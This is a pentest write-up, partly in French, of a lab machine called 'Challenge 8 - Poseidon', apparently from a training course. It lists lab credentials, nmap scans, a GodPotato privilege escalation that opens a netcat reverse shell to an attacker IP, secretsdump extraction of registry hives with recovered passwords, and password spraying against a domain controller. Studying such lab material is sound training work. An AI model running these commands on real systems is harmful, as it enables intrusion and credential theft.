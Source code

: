 # Challenge 8 - Poseidon

## Rapport de Pentest pour Challenge 8 - Poseidon

### Informations de base

* **Nom de la box**: Challenge 8 - Poseidon
* **Adresse IP**: 192.168.133.163
* **Date**: 3/23/2025

username: Eric.Wallows

password: EricLikesRunning800

### Phases de Pentest

#### 1. Reconnaissance

* Scan Nmap initial: `nmap -sC -sV -oA initial 192.168.133.163`
* Scan complet: `nmap -p- --min-rate 10000 -oA full 192.168.133.163`
* Vérification des versions des services découverts

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

#### 2. Énumération

* Énumération des utilisateurs, groupes, et autres informations pertinentes
* Recherche de vulnérabilités connues pour les services identifiés

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

I use exegol mode to put my variables and connect to the winrm session:

<figure><img src="../../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

### Services Détailés

#### 3. Exploitation

* Tentatives d'exploitation des vulnérabilités découvertes
* Obtention d'un premier accès à la cible

I have some nice privileges:&#x20;

<figure><img src="../../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

I upload tools for exploiting and get to nt auth system:

<figure><img src="../../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

```
./god.exe -cmd "C:\Temp\nc.exe -e cmd.exe 192.168.45.210 1234"
```

<figure><img src="../../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

I am able to copy hives and export them to my attackbox:

<figure><img src="../../../.gitbook/assets/image (299).png" alt=""><figcaption></figcaption></figure>

```
secretsdump -sam sam.hive -system system.hive -security security.save LOCAL
```

<figure><img src="../../../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

```
Impossible2Crack4.?
LisaWayToGo456
```

I spray and find access to DC02 with the user lisa

So sharphound did not work with my privesc via godpotato but worked with printspoofer



#### 4. Post-Exploitation

* Maintien de l'accès
* Élévation de privilèges
* Extraction de données sensibles

#### 5. Nettoyage

* Suppression des traces laissées sur la cible
* Documentation des vulnérabilités et méthodes d'exploitation
